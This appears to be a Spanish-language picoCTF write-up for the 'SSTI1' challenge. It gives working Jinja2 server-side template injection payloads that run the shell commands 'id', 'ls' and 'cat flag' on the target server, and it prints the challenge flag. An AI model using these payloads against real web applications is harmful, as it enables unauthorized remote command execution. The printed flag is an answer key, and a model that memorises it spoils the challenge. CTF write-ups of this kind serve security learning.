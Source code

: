 # SSTI1

## Description

I made a cool website where you can announce whatever you want! Try it out! I heard templating is a cool and modular way to build web apps! Check out my website [here](http://rescued-float.picoctf.net:49809/)!

## Hints

* Server Side Template Injection

## Solución

Primero iniciamos nuestra instancia y entramos al link proporcionado, una vez dentro buscamos `pyjail ssti` en nuestro navegador y seleccionamos el primer sitio web, y en la parte de **RCE bypassing as much as I possibly can.** seleccionamos el siguiente comando y lo pegamos en el link que se nos proporciono de la instancia.
`{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}`

Después modificamos este mismo comando y en la parte de popen, dentro de los paréntesis lo cambiamos por **ls**, una vez que lo ingresamos damos clic y nos mostrara una pista de lo siguiente que debemos poner dentro del paréntesis de popen.
`{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}`

Modificamos el popen y escribimos **cat flag** y con esto nos mostrara nuestra flag:
`{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}`
### Respuesta: picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_bd4cfc64}

## Referencias:
https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/